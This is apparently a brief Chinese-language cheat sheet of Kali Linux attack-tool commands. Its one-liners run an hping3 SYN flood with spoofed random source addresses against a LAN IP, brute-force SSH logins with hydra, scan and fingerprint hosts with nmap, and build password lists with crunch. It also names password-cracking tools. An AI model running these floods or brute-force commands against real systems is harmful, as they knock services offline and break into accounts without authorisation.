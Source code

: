 - 使用随机地址对目标ip地址进行DOS(泛洪攻击)
hping3 -S -U --flood -V --random-source 192.168.1.9
- 对ssh进行暴力破解
hydra -l user -P password.txt -e ns -t IP ssh
- 扫描局域网主机与主机指纹识别（操作系统等检测）
nmap -sP 192.168.1.0/24
nmap -sS -A 192.168.1.9
- 生成密码字典
crunch 1 10
crunch 4 4 0123456789 [dict.txt]
- 基于cpu与gpu的破解对比
hashcat, pyrid
- ftp破解
medusa, x-hydra
- kali install in usb
universal usb install